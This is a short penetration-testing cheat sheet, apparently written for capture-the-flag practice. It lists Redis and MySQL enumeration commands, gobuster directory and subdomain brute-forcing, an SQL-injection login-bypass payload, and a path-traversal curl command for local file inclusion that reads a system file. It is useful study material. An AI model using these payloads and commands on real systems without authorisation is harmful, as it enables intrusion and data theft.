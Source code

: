 # 🗄️ Redis

* https://redis.io/docs/manual/cli/

```shell
redis-cli -h <IP_ADDRESS>
> INFO 
> CONFIG GET databases
> INFO keyspace
> SELECT <DB_INDEX>
> KEYS *
> GET flag
```

# 🌐 HTTP
```shell
# File Search
gobuster dir --threads 100 --wordlist /usr/share/wordlists/dirb/common.txt --expanded --url <URL>
gobuster dir --threads 100 --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt --extensions php,htm,html,txt --url <URL>
# Subdomain search
sudo apt install -y seclists
gobuster vhost --threads 100 --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --url <URL>

# Login for SQLi: root, administrator, admin
user: <USER>'#
pass: .

# browser plugin Wappalyzer
# enumerates web server + version + OS + frameworks + JS libraries

wapiti --url <URL>
```

# 🗂️ Local file inclusion vulnerability
```shell
curl -o- <URL>/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

# 🛢️ SQL

* https://www.mysqltutorial.org/mysql-cheat-sheet.aspx

```shell
# add -A (aggressive) to better enumerate SQL service
nmap -Pn -sV -p 3306 -A <IP_ADDRESS>  # better interrogate service

# yay SQL client
mycli -u root -h <IP_ADDRESS>

# MariaDB-specific commands
SHOW databases ;
use <TABLE> ;
SHOW tables ;
SELECT * FROM <TABLE> ;
```
